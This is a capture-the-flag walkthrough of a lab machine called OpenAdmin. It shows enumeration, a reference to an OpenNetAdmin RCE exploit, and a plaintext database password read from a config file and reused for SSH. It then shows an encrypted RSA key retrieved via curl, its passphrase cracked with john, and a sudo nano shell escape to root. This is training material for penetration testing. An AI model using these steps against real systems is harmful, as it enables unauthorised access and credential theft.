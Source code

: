 ### nmap result

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### enum

Feroxbuster result

```
http://10.10.10.171/artwork/
http://10.10.10.171/music/
http://10.10.10.171/sierra/
```

and by going to `music` we can see a login page and it redirects to `/ona` and by going to that page.

It redirects to `OpenNetAdmin` and the version `18.1.1` is vulnerable to a RCE attack. https://github.com/amriunix/ona-rce

and by locating `database` we can see a file named `/opt/ona/www/local/config/database_settings.inc.php` that we can `cat` into

```
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

We can try if a user reuse the password that is in the database.

```
sh$ cat /etc/passwd | grep -n 'bash'
1:root:x:0:0:root:/root:/bin/bash
30:jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
32:joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```

We can see that the user `jimmy` uses the password that is in the database file

`jimmy:n1nj4W4rri0R!`

#### linpeas result

```
╔══════════╣ Unexpected in /opt (usually empty)
total 12                                                                                                            
drwxr-xr-x  3 root     root     4096 Jan  4  2020 .
drwxr-xr-x 24 root     root     4096 Aug 17  2021 ..
drwxr-x---  7 www-data www-data 4096 Nov 21  2019 ona
-rw-r--r--  1 root     root        0 Nov 22  2019 priv

╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                    
Sudoers file: /etc/sudoers.d/joanna is readable                                                                     
joanna ALL=(ALL) NOPASSWD:/bin/nano /opt/priv
```

We see an interesting files inside `/etc/apache2/sites-enabled` we can check the `internal.conf` and then we can see that the assigned user is `joanna`.
We will test `curl` command and see if we can get an interesting result.

We see a RSA private key is available. We will copy it and create a file and check if we can ssh under `joanna` 

```
jimmy@openadmin:/var/www/internal$ curl http://127.0.0.1:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

We tried but it is asking for a password

```
└─# ssh joanna@10.10.10.171 -i joanna-priv          
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'joanna-priv' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "joanna-priv": bad permissions
joanna@10.10.10.171's password: 
Permission denied, please try again.
joanna@10.10.10.171's password: 
Permission denied, please try again.
joanna@10.10.10.171's password: 
joanna@10.10.10.171: Permission denied (publickey,password).
```

We will try and use a tool called `ssh2john`

`/usr/share/john/ssh2john.py joanna-priv >> joanna.hash`

Then use `john` to crack the hash.

```
john --wordlist=/usr/share/wordlists/rockyou.txt joanna.hash                       
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (joanna-priv)     
1g 0:00:00:01 DONE (2023-11-02 22:41) 0.5154g/s 4935Kp/s 4935Kc/s 4935KC/s bloodofyouth..bloodmore23
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

SSH as `joanna` with the RSA private key and the cracked password.

```
joanna@openadmin:~$ cat user.txt 
16c41b612cf7fcc38217eab00c99cce3
```

#### sudo -l

```
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH
    XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

By looking at GTFOBins. we can spawn a shell inside `nano`

#### Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
    nano
    ^R^X
    reset; sh 1>&0 2>&0
```

#### nano

```
Command to execute: reset; sh 1>&0 2>&0                                                                             
^G Get Help                                               ^X Read File
# # # cel                                                 M-F New Buffer
# 
# 
# 
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# cat root.txt
1a9b499c6c6161a4607309478e0b09ef
# 
```


